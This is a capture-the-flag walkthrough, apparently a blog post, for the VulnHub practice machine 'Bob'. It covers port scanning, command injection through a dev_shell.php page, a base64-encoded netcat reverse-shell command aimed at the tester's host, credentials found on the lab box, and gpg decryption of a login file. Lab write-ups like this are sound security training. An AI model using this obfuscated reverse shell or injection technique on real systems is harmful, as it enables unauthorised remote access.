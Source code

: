 ```yaml
---
title: Bob
categories: [VulnHub]
tags: [Command Injection, gpg, Recon, PrivEsc]
image:
  path: /Vulnhub-Files/img/Bob/Untitled%203.png
  alt: Bob Machine !
---
```


## **Description ⤵️**


> 💡 **Difficulty: Beginner/Intermediate →** [Bob](https://vulnhub.com/entry/bob-101,226/)<br>
<br>
    Bob is my first CTF VM that I have ever made so be easy on me if it is not perfect.
<br><br>
    The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now setting up a linux server running Debian. Could there a few weak points in the new unfinished server?
<br>
____
<br>
<br>
    Your Goal is to get the flag in /
<br>
    Hints: Remember to look for hidden info/files
<br>
    ## Changelog v1.0 ~ 2018-03-07 v1.0.1 ~ 2018-03-09
{: .prompt-info }

#### Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Bob/Untitled.png)

```bash
IP : 10.0.2.18
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%202.png)

```bash
OPEN PORTS >
80     HTTP (Enumeration Further !)
25468  SSH  (Hiding the ssh port from changing it is good strategy !)
```
{: .nolineno}

___

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%203.png)

Lets check the robots.txt file →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%204.png)

I will be preparing this payload for checking the `dev_shell.php` file field path with command injection.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%206.png)

Lets try to get the output now → `for command : id`

![Untitled](/Vulnhub-Files/img/Bob/Untitled%207.png)

Lets try to generate reverse shell from it →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%208.png)

Now let is try the reverse shell Now →

```bash
command ->
echo "bmMgMTAuMC4yLjEwIDQ0NDQgLWUgL2Jpbi9iYXNoCg==" | base64 -d | bash
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Bob/Untitled%209.png)

Look what  I found →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2010.png)

```bash
jc	:	Qwerty
seb	:	T1tanium_Pa$$word_Hack3rs_Fear_M3
```
{: .nolineno}

## SSH SHELL ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2011.png)

While further enumeration I got the cred for elliot user from its directory.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2012.png)

```bash
elliot  :  theadminisdumb
```
{: .nolineno}

After very much enumeration of directories  I got this folder and The secret part was the `HARPOCRATES`

`Harpocrates` was the Greek god of silence, secrets, and confidentiality.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2013.png)

Now for extracting this I used this parapharase →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2014.png)

```bash
gpg login.txt.gpg
gpg --batch --paraphrase HARPOCRATES -d login.txt.gpg
```

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2015.png)
_Extracted the password of another user names bob._

```bash
And I got this credential →
bob	:	b0bcat_
```
{: .nolineno}

Lets see how bob can lead us to root —>

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2016.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2017.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2018.png)
<br>
<br>
<br>
___

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }